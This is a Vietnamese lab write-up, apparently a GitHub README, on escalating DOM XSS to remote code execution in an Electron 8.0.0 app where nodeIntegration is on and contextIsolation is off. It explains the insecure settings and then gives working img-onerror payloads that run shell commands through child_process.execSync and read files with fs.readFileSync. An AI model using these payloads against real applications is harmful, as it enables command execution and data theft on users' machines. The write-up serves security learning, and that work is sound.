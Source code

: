 # XSS-to-RCE-Electron-8.0.0


Ứng dụng Electron 8.0.0 là một phiên bản cũ của Electron, được sử dụng để xây dựng các ứng dụng desktop chéo nền tảng (cross-platform) bằng công nghệ web như JavaScript, HTML và CSS. 

Mặc dù mang lại nhiều lợi ích bằng việc cho phép phát triển các ứng dụng desktop ngang hàng với web bằng JavaScript, HTML, và CSS, nhưng cũng tiềm ẩn rủi ro về bảo mật, cụ thể là lỗ hổng XSS đến RCE (Remote Code Execution).

Tổng quan : XSS to RCE

Setup 

  Sử dụng Electron 8.0.0 open source 
  
  URL Download : https://github.com/standardnotes/desktop/archive/v2.0.0.tar.gz
 
  Commands
```
wget https://github.com/standardnotes/desktop/archive/v2.0.0.tar.gz
tar xvfz v2.0.0.tar.gz
cd desktop-2.0.0/
npm audit
```
![1](https://github.com/Lilly-dox/Exploit-CVE-2023-22518/assets/130746941/47051781-9a54-4831-8142-e6b165d3b16c)

Chúng ta nhận được output :
```
npm ERR! code ENOLOCK
npm ERR! audit This command requires an existing lockfile.
npm ERR! audit Try creating one first with: npm i --package-lock-only
npm ERR! audit Original error: loadVirtual requires existing shrinkwrap file

npm ERR! A complete log of this run can be found in:
npm ERR!     /home/lilly-dox/.npm/_logs/2024-03-20T15_39_01_845Z-debug-0.log
```
Như lỗi trên hiển thị, chúng ta phải tạo tệp pack-lock.json, sử dụng lệnh được cung cấp trong báo lỗi để xử lý 
```
npm i --package-lock-only
```
sau đó chạy lại command :
```
npm audit
```
![2](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/cd2349ca-7629-42b6-bbe5-6d69c97d7425)

XSS to RCE
Download the first vulnerability file :
<file vulnerable1.zip>

File : 
vulnerable1/main.js
![3](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/4a7efd61-c551-4b04-9c42-72ebdbd4222f)

Như đã thấy :
1. `nodeIntegration` được bật (`nodeIntegration: true`)**:
    - nodeIntegration được bật, trang web có thể tự do sử dựng các module Node.js. Mặc dù việc kích hoạt tính năng này có thể thuận tiện cho các nhà phát triển nhưng nó làm tăng đáng kể rủi ro bảo mật. Nếu kẻ tấn công khai thác lỗ hổng XSS (Cross-Site Scripting) trong ứng dụng, chúng có thể sử dụng API Node.js để thực hiện các hành động độc hại trên hệ thống của người dùng, chẳng hạn như đọc/ghi tệp hoặc thực thi lệnh, dẫn đến Mã từ xa Lỗ hổng thực thi (RCE).
2. `contextIsolation` bị tắt (`contextIsolation: false`)**:
    - contextIsolation là  Là một tính năng bảo mật khác của Electron, phân cách môi trường giữa các mã nguồn được thực thi trong renderer. Nếu contextIsolation bị tắt, nó giúp mã độc có khả năng truy cập vào các APIs và mở đường cho RCE nếu người dùng bị tấn công XSS.

Chúng ta sẽ lợi dụng sự tự do truy cập các API Node.js

Nói qua 1 xíu về API Node.js
API Node.js là môi trường thực thi code Javascript phía server máy chủ . sử dụng V8 engine, engine Javascript cùng một loạy các API tích hợp để cung cấp CHỨC NĂNG TƯƠNG TÁC VỚI HỆ ĐIỀU HÀNH hơn là chỉ chạy trong môi trường trình duyệt thông thường nhưu javascript .

Module thường xuyên bị attacker lợi dụng , nhất là khi API Node.js được dùng trong một môi trường với ít các biện pháp bảo mật , như là Electron khi ‘nodeIntegration’ <nút tích hợp> được bật . Các module thường bị lợi dụng là:
1.	Child_process : module cho pháp thực thi lệnh hệ thống hoặc các chương trình khác . Đại loại là child_process sẽ được lợi dụng để chạy shell .
2.	fs ( File system ) : lợi dụng để chỉnh sửa xóa , thêm file tùm lum . Cài phần mêm độc hại như file upload 
3.	‘net’ và ‘dgram’ : chiếm quyền tương tác với giao thực mạng TCP , UDP -> mở kết nối mạng độc hại hoặc thực hiện Dos
4. **`vm`**: Đây là một module cho phép bạn thực thi JavaScript trong một context ảo. Nó có thể bị lợi dụng để chạy mã độc trong một môi trường tưởng chừng được cô lập.
    5. **`os` và `path`**: Mặc dù ít nguy hiểm hơn các module khác, nhưng khi được kết hợp với các module như `fs`, chúng có thể được sử dụng để xây dựng các đường dẫn đến các tệp tin quan trọng hoặc thu thập thông tin về hệ thống mục tiêu.
=> Sử dụng suyntax của API Node.js để khai thác

Chúng ta sẽ ứng dụng và giải thích luôn 1 payload điển hình : 
```
<img src=x onerror="alert(require('child_process').execSync('id').toString());">
```
1.	<img src=x : đoạn script này bắt đầu định nghĩa HTML image element.
Gán cho src=x nghĩa là không phải đường dân ảnh source ảnh hợp lệ . Nên đương nhiên sẽ kích hoạt sang onerror <đây là cố tình không điền src hợp lệ để điều hướng thực thi qua onerror >
2.	onerror= : đây là thuộc tính xử lí được kích hoạt khi src không hợp lệ
3.	alert(require(‘child_process’).execSync(‘id’).toString()); : Code Javascript này được thực thi do sự kiện onerror . 
*  Phần require(‘child_process’).execSync(‘id’) là lệnh Node.js sử dụng module child_process để thực thi lệnh hệ thống (system command) ‘id’ , lệnh này sẽ output ID của nhóm và người dùng thực (real and effective user and group IDs)
*  Phương thức execSync có nghĩa là thực thi lệnh một cách đồng bộ
execSync (viết tắt của executes synchronnously : thực thi đồng bộ). Nghĩa là nó sẽ chặn việc thực thi tiếp theo cho đến khi lệnh hệ thống (system command) trả về kết quả . 
Lệnh ‘id’ trả về thông tin về người dùng hiện tại như là ID người dùng (uid), ID nhóm (gid) và bất kì thành viên nhóm nào .

* Phương thức .toString() : chuyển đổi đầu ra của lệnh từ bộ đệm thành biểu diễn chuỗi (from buffer to a string representation)

* alert() là phương thức javascript tiêu chuẩn để hiển thị hộp thoại cánh báo với nội dung được chỉ định

Ứng dụng vào thực hành với file vulnerable1 <để ở trên>

File chứa lỗ hổng được "trích xuất" ra từ Electron 8.0.0

File:
vulnerable1/renderer.js

 ![4](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/fe5546a0-8657-437a-b3b6-1167166ac820)


 Nhận diện có innerHTML sink -> DOM XSS in innerHTML sink 

Khai thác :
 Dựng vulnerable1 lên để khai thác
 Commands:
 ```
 cd /path/to/vulnerable1
 npm install
 npm start
```
![5](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/0fde2e41-b063-472b-a976-925dadbc6806)

Sau khi start :

![6](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/4041753a-dbf7-4d33-b79c-6fdf1b70ca78)

Payloads :
```
test <img src=x onerror=alert("XSS")>
```
![7](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/57a12b6f-4691-46f8-8841-f3f067992d80)

```
<img src=x onerror="alert(require('child_process').execSync('id').toString());"> 
```
![8](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/901d21ef-5400-4c16-955f-d063213abd26)

```
<img src=x onerror="alert(require('child_process').execSync('ls -l').toString());">
```
![9](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/e0859aa1-ac5e-4189-ad9f-77f706a640d1)

List hết các file ra 

![image](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/47402d14-b248-4172-b3f9-8c6b8b6e5d0b)

Đọc được cả file nếu muốn 
```
<img src=x onerror=”alert(require(‘fs’).readFileSync(‘main.js’).toString());”>
```

![image](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/05068ccd-5568-47be-a810-0d6dd6028399)

Có rất nhiều module của API Node.js mà bạn có thể nghịch thêm .
